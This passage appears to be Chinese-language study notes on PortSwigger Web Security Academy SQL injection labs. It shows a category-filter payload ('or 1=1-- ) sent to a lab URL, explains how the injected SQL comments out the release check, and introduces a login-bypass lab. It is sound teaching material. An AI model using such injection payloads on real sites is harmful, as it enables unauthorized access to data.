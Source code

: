 

当我们访问

```http
https://0a5d007503c5bf1581290ca80050004e.web-security-academy.net/filter?category=Accessories'or 1=1-- 
```

显示了全部商品

<img src=".\图片\Snipaste_2023-06-01_14-31-59.png" alt="Snipaste_2023-06-01_14-31-59" style="zoom:80%;" />

这时执行拼接的sql语句如下：

```sql
SELECT * FROM products WHERE category = 'Accessories'or 1=1-- ' AND released = 1
```

```
' AND released = 1  被注释了
```

## 二、颠覆应用程序逻辑

Lab: SQL injection vulnerability allowing login bypass

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.
